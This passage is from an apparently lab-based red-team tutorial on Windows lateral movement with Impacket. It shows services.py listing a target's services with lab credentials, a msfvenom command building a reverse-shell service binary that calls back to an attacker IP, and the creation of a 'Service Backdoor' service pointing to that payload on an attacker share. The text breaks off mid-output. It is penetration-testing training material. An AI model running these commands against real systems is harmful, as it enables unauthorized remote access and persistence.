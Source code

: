 [!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32&gt;
</code></pre>
<p>As we can see, we now have established a semi-interactive shell on the host.</p>
<h3>services.py</h3>
<p>The <a href="https://github.com/fortra/impacket/blob/master/examples/services.py">services.py</a> script in Impacket interacts with Windows services using the <a href="https://learn.microsoft.com/en-us/windows/win32/rpc/rpc-start-page">MSRPC</a> interface. It allows starting, stopping, deleting, reading status, configuring, listing, creating, and modifying services. During Red Teaming assignments, many tasks can be greatly simplified by gaining access to the target machine's services. This technique is non-interactive, meaning that we won't be able to see the results of the actions in real time.</p>
<p>We can view a list of services in the target host, by typing the command <code>list</code> after providing the domain name, the administrator account, the password, and target IP address <code>&lt;domain&gt;/&lt;user&gt;:&lt;password&gt;@&lt;ip&gt;</code>:</p>
<pre><code class="language-shell-session">[!bash!]$ proxychains4 -q services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 list
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Listing services available on target
                      1394ohci -                                    1394 OHCI Compliant Host Controller -  STOPPED
                         3ware -                                                                  3ware -  STOPPED
                          ACPI -                                                  Microsoft ACPI Driver -  RUNNING
                       AcpiDev -                                                    ACPI Devices driver -  STOPPED
                        acpiex -                                                Microsoft ACPIEx Driver -  RUNNING
                      acpipagr -                                       ACPI Processor Aggregator Driver -  STOPPED

...SNIP...

          WpnUserService_7a815 -                          Windows Push Notifications User Service_7a815 -  RUNNING
                          KQWG -                                                                   KQWG -  RUNNING
Total Services: 543
</code></pre>
<p>To move laterally with this tool, we can set up a new service, modify an existing one, and define a custom command to get a reverse shell.</p>
<p>To create a new service, instead of using the option <code>list</code> we will use <code>create</code> followed by the name of the new service <code>-name &lt;serviceName&gt;</code>, a display name <code>-display "&lt;Service Display Name&gt;"</code> and finally we specify the command we want to execute with the option <code>-path "cmd /c &lt;payload&gt;"</code>.</p>
<p>For our payload, we will use the Metasploit output option <code>exe-service</code>, which creates a service binary:</p>
<pre><code class="language-shell-session">[!bash!]$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.207 LPORT=9001 -f exe-service -o rshell-9001s.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload                                     
No encoder specified, outputting raw payload   
Payload size: 460 bytes                        
Final size of exe-service file: 48640 bytes    
Saved as: rshell-9001s.exe
</code></pre>
<p>Now, we can execute the command to create a new service:</p>
<pre><code class="language-shell-session">[!bash!]$ proxychains4 -q services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 create -name 'Service Backdoor' -display 'Service Backdoor' -path "\\\\10.10.14.207\\share\\rshell-9001.exe"
Impacket v0.11.0 - Copyright 2023 Fortra

